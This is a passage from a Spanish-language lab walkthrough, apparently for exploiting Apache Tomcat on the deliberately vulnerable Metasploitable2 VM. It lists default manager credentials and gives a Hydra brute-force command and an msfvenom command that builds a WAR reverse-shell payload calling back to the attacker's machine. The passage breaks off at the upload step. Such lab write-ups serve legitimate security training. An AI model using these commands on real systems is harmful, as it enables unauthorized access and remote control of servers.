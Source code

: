 📌 Resultado:

```arduino
8180/tcp open  http  Apache Tomcat/Coyote JSP engine 1.1
```

Confirmamos que Apache Tomcat está activo en el puerto 8180.

## 🌐 Paso 2: Acceso al panel de administración

Abrimos el navegador y accedemos a:

```cpp
http://192.168.56.102:8180
```

Vamos a la página por defecto de Tomcat, que suele tener enlaces como:

- /manager/html -> Panel de administración.
- /host-manager/html -> Gestión de hosts virtuales.

## 🗝️ Paso 3: Credenciales por defecto

Apache Tomcat suele instalarse con credenciales por defecto como:

Usuario	Contraseña
admin	admin
admin	password
tomcat	tomcat
manager	manager
role1	role1

Probamos manualmente en /manager/html.

Si no funcionan, utilizamos la herramienta **Hydra**:

```bash
hydra -l tomcat -P /usr/share/wordlists/rockyou.txt 192.168.56.102 http-get /manager/html
```

📌 En Metasploitable2, las credenciales por defecto suelen ser:

```yami
tomcat: tomcat
```

## 💣 Paso 4: Generar el payload WAR

Usamos 'msfvenom' para crear un archivo WAR que, al ser desplegado, nos dé una shell inversa:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f war -o shell.war
```
- **LHOST:** IP del atacante (Kali).
- **LPORT:** Puerto donde escucharemos la conexión.
- **Formato WAR:** Compatible con despliegue en Tomcat.

## 📤 Paso 5: Cargar el payload
